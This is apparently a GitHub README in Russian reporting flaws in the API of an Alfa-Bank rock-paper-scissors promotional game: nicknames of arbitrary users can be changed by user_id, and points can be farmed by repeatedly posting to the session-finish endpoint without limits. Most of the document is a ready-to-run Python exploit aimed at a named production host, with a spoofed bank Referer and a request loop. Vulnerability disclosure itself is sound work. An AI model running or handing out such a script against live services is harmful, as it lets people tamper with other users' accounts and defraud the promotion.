



# Тестирование игры «Камень, ножницы, бумага» от Альфа-Банка

## Обзор

В ходе тестирования API были обнаружены уязвимости, позволяющие:
- Изменять никнейм пользователей используя известный user-id.
- Накручивать баллы в игровой сессии, передавая максимальное значение win_count, а также обходить нормальный игровой процесс, сразу завершая сессию.

## Описание уязвимостей

### 1. Изменение никнейма

**Описание:**  
Обнаружена возможность смены никнейма для любого созданного аккаунта. При отправке POST-запроса на эндпоинт `/api/rps/create-nick/<user_id>/` с нужным значением поля `nick` можно установить желаемый ник для любого пользователя.



### 2. Накрутка баллов в игровой сессии

**Описание:**  
В API сервиса отсутствует ограничение на количество отправляемых POST-запросов на эндпоинт `/api/rps/finish-game-session/<user_id>/` за определённый промежуток времени. При этом в ответе сервера присутствует поле `played_in_last_4_hours`, однако оно, видимо, не используется для контроля или ограничения частоты запросов.



При этом пользователь в нормальном процессе игры отправляет ещё запрос о старте сессии, однако уязвимость позволяет сразу отправлять запрос на завершение сессии, получая очки без фактического прохождения игры:



## Демонстрация эксплойта (sploit.py)

Ниже представлено видео, демонстрирующее работу эксплойта.


Ниже приведён пример кода на Python, демонстрирующий эксплойт для обеих уязвимостей:

```python
import requests
import argparse

API_KEY = ""  # Используйте свой api-key
ALFABANK_USER_ID = ""  # Используйте свой user_id


def send_finish_game_session(
        master_of: str,
        win_count: int,
        device: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/finish-game-session/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {
        "master_of": master_of,
        "win_count": win_count,
        "alfabank_user_id": alfabank_user_id,
        "device": device
    }

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def send_create_nick(
        nick: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/create-nick/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {"nick": nick}

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def main(num_requests: int = 0, nick: str = None):
    if nick:
        send_create_nick(nick=nick)

    if num_requests > 0:
        for i in range(num_requests):
            send_finish_game_session(
                master_of="rock",
                win_count=5,
                device="iphone"
            )


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--num_requests',
        type=int,
        default=0,
    )
    parser.add_argument(
        '--nick',
        type=str,
    )
    args = parser.parse_args()

    main(
        num_requests=args.num_requests,
        nick=args.nick
    )
```
